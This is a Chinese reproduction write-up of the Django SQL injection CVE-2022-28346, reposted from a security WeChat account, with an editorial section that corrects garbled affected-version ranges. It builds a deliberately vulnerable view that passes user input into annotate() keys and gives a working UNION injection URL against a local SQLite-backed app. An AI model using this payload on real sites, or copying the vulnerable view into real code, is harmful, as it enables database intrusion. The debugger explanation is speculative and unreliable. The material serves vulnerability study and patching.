## 核对与使用边界

- 明确更正：受影响维护分支应分写为 2.2.x &lt; 2.2.28、3.2.x &lt; 3.2.13、4.0.x &lt; 4.0.4；原串联的 `2.2.283.2` 不是版本号。官方首修复分别为 2.2.28、3.2.13、4.0.4。
- 触发边界：攻击者可控的字典键需经 `**kwargs` 成为 annotate/aggregate/extra 的列别名；普通查询参数不自动满足此条件。调试器导致问题的说法缺实证，不能替代该输入链。

核对来源：[Django 官方安全发布](https://www.djangoproject.com/weblog/2022/apr/11/security-releases/)

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Concatenated intended2.2–&lt;2.2.28/3.2–&lt;3.2.13/4.0–&lt;4.0.4; tested release image-only

代码与实验材料：Model/view/URLs and SQLite union payload; setup/sink/patch mostly screenshots

来源证据范围：Repost without original permalink or primary patch

- **代码与转录边界（1）**：Malformed concatenated ranges；依据：2.2&lt;=Django Django&lt;2.2.283.2&lt;=...。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

- **结论使用边界（2）**：Debugger explanation speculative, SQL/output untranscribed, dependencies unpinned。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

#  Django SQL注入漏洞（CVE-2022-28346）   
 蚁景网安   2025-02-13 08:30  
  
## 漏洞简介  
  
Django 在2022年发布的安全更新，修复了在 QuerySet 的 annotate()， aggregate()， extra() 等函数中存在的 SQL 注入漏洞。  
### 影响版本  
  
2.2<= Django Django <2.2.283.2<= Django Django <3.2.134.0<= Django Django <4.0.4  
  
需要使用了 annotate 或者 aggregate 或 extra 方法  
## 环境搭建  
### 搭建特定版本的 django 项目  
  
利用 pycharm 创建一个 python 项目  
  
  
  
  
创建完成项目后在 Settings 中找到 Project: CVE202228346 对应的 Python Interpreter  
  
  
  
添加存在问题的 Django 版本  
  
  
  
  
在 Terminal 中执行命令，创建 django 项目  
  
django-admin startproject CVE202228346  
  
  
  
  
配置启动设置  
  
  
  
  
  
  
  
运行后就启动了最简单的 django 项目  
  
  
  
  
  
  
‍  
### 编写配置漏洞代码  
  
折腾来折腾去，出现了很多问题，一度想要放弃说直接采用 docker ，但是在不断的试错下，最终还是编写成功  
  
因为对 python 的 django 不太熟悉，所以其中可能更多的是比较偏向于基础的操作  
  
‍  
  
进入到项目目录下创建命令 创建第一个应用  
  
  
  
  
在 settings.py 中添加配置  
  
  
  
在 urls.py 中添加 对应的 url，urls.py 相当于路由解析器，将路由解析到对应的 views.py 中对应的函数上  
  
  
  
```
urlpatterns = [
    path('admin/', admin.site.urls),
    path('index/',views.index),
    path('demo/',views.users),
    path('initialize/',views.loadexampledata)
]
```  
  
‍  
  
models.py 是创建表结构的时候使用，通过类的定义，可以创建一个表  
  
  
```
from django.db import models

# Create your models here.
class User(models.Model):
    name = models.CharField(max_length=200)

    def __str__(self):
        return self.name
```  
  
‍  
  
views.py 主要定义了对应路由所响应的函数  
  
  
  
```
from django.db.models import Count
from django.http import HttpResponse
from django.shortcuts import render
from .models import User

# Create your views here.
def index(request):
    return HttpResponse('hello world')

def users(request):
    field = request.GET.get('field', 'name')
    user_amount = User.objects.annotate(**{field: Count("name")})
    html = ""
    for u in user_amount:
        html += "<h3>Amoount of users: {0}</h3>".format(u)
    return HttpResponse(html)

def loadexampledata(request):
    u = User(name="Admin")
    u.save()
    u = User(name="Staff1")
    u.save()
    u = User(name="Staff12")
    u.save()
    return HttpResponse("ok")
```  
  
三个函数分别是 helloword 函数，往数据库中加参数，以及查询数据库中的字段  
  
‍  
  
编写好代码后，需要对数据库执行初始化操作  
```
python manage.py makemigrations
python manage.py migrate
```  
  
‍  
## 漏洞复现  
  
先访问 initialize 为数据库中添加信息  
  
构造 payload  
```
http://127.0.0.1:8000/demo/?field=demo.name" FROM "demo_user" union SELECT "1",sqlite_version(),"3" --
```  
  
  
  
## 漏洞分析  
  
发现一个问题，在加上断点调试以后，每次运行输出的结果跟不加断点运行的结果存在很大的差异，结果完全不同。不断尝试之后发现是因为在某些地方加上断点之后，在调试器中查看变量和状态可能会影响程序的执行速度和内存使用情况，为了方便的输出某些位置的变量，采用 print 的方法结合断点调试。  
  
  
  
通过 get 传入的参数 field  
  
CVE202228346.demo.views.users  
  
  
  
此处的**{field: Count("name")} 用来表示拆分字典  
  
跟进 annotate 对传入参数的处理  
  
django.db.models.query.QuerySet.annotate  
  
  
  
  
继续将参数传入到 _annotate 进行处理  
  
django.db.models.query.QuerySet._annotate  
  
  
  
在将 kwargs 的值 update 到 annotations 后，调用 add_annotation 进行处理  
  
django.db.models.sql.query.Query.add_annotation  
  
  
  
add_annotation  
 也是漏洞存在的关键位置，因为修复漏洞的关键位置也在此处  
  
调用 resolve_expression 解析表达式  
  
django.db.models.aggregates.Aggregate.resolve_expression  
  
  
  
  
django.db.models.expressions.Func.resolve_expression  
  
  
  
  
django.db.models.expressions.F.resolve_expression  
  
  
  
  
django.db.models.sql.query.Query.resolve_ref  
  
  
  
最后我们可以看到 clone 对应的值 以及执行的 SQL 语句  
  
  
  
整个漏洞分析下来，仍然有很多不太清楚的地方，可能再分析几个关于 Django 的漏洞会好一些  
## 漏洞修复  
  
  
  
在 add_annotation  
 添加了 check_alias  
 来对传入的参数进行校验  
  
  
  
学习  
网安实战技能课程，戳  
“阅读原文“  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
